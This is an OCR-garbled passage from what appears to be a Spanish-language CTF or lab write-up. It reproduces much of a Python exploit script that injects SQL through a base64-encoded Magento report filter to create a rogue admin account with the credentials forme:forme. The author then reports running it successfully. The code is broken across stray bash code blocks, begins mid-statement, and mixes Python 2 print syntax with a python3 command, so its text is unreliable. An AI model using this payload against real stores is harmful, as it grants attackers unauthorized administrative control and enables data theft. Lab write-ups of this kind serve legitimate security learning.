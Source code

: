 ```bash
 reload_acl_flag 
```
,
```bash
 is_active 
```
,
```bash
 extra 
```
,
```bash
 rp_token 
```
,
```bash
 rp_token_created_at 
```
) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO 
```bash
 admin_role 
```
 (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"
```

Lanzamos el script con el commando 
```bash
 python3 magento_rce.py 
```
 y nos dice que el script a funccionado y a creado un usuario forme con la contraseña forme.
